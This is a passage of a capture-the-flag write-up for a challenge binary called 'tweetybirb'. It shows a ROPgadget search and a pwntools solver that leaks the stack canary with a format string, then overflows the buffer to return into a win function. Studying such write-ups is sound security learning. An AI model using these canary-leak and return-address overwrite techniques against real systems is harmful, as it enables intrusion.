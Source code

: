 ```
```

Lastly, we need to get the return address. So when we overwrite the stack, we could change the instruction to return to flag function. To get the return address, we could use ROPgadget.
```
$ ROPgadget --binary tweetybirb | grep "ret"
...
0x000000000040101a : ret
...
```

## Exploit

Let's make a solver using python
```python
from pwn import *

win = 0x00000000004011db
ret = 0x0000000000401272

offset = 72

s = process("./tweetybirb")

print(s.recvline().decode())

s.sendline(b"%15$p")

canary = int(s.recvline().decode(), 16)
log.info("Canary: {}".format(hex(canary)))
print(s.recvline().decode())

payload = b"A"*offset
payload += p64(canary)
payload += p64(ret)
payload += p64(win)

s.sendline(payload)

print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!

![](img/tweety-local.png)
